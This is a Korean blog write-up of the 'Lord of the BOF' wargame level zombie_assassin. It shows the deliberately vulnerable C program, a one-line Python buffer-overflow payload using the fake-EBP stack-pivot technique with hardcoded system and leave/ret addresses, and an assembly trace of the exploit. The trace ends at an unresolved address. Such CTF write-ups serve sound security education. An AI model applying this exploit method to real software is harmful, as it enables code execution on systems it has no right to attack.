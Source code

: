 ```yaml
---
title: The Lord of the BOF - assassin -> zombie_assassin
slug: lob-assassin
date: 2017-01-04 17:14:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


코드는 이렇다.

```c
/*
    The Lord of the BOF : The Fellowship of the BOF
    - zombie_assassin
    - FEBP
*/

#include <stdio.h>
#include <stdlib.h>

main(int argc, char *argv[])
{
    char buffer[40];

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    if(argv[1][47] == '\xbf')
    {
        printf("stack retbayed you!\n");
        exit(0);
    }

    if(argv[1][47] == '\x40')
    {
        printf("library retbayed you, too!!\n");
        exit(0);
    }

    // strncpy instead of strcpy!
    strncpy(buffer, argv[1], 48);
    printf("%s\n", buffer);
}
```

구조상

01 ~ 40: 버퍼

41 ~ 44: sfp

45 ~ 48: ret

이렇게 되고, 이 공간만 내가 쓸 수 있다.

푸는 건 FEBP를 검색해서 풀었다.

sfp에 내가 쓰고 싶은 스택 주소를 넣어주면 leave 명령어가 실행될 때
ebp에 내가 입력한 스택 주소가 입력된다.
그리고 ret 주소를 leave ret이 있는 주소로 지정해준다.

이게 무슨 말이냐 하면...

일단 페이로드부터 보자

```sh
./zombie_assassin `python -c 'print "A"*4 + "\xe0\x8a\x05\x40" + "B"*4 + "\xf9\xbf\x0f\x40" + "C"*24 + "\xa0\xfa\xff\xbf" + "\xdf\x84\x04\x08"'`
```

0xbffffaa0은 AAAA 문자열이 있는 주소다.

0x080484df는 leave와 ret 명령어가 있는 주소다.

실행 과정을 잘 써보면 이렇게 된다. (intel이라 생각하고 읽어 주샘)

```x86asm
main:
    push ebp (sfp에 ebp PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (sfp에서 0xbffffaa0 POP)
ret:
    pop eip (ret에서 0x080484df POP)
leave:
    mov esp, ebp (이제 스택 위치는 0xbffffaa0)
    pop ebp (0xbffffaa0에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa4에서 0x40058ae0 POP)
system:
    push ebp (0xbffffaa4에 0x41414141을 PUSH)
    mov ebp, esp
leave:
    mov esp, ebp
    pop ebp (0xbffffaa4에서 0x41414141 POP)
ret:
    pop eip (0xbffffaa8에서 0x42424242 POP)
0x42424242:
    ???
```
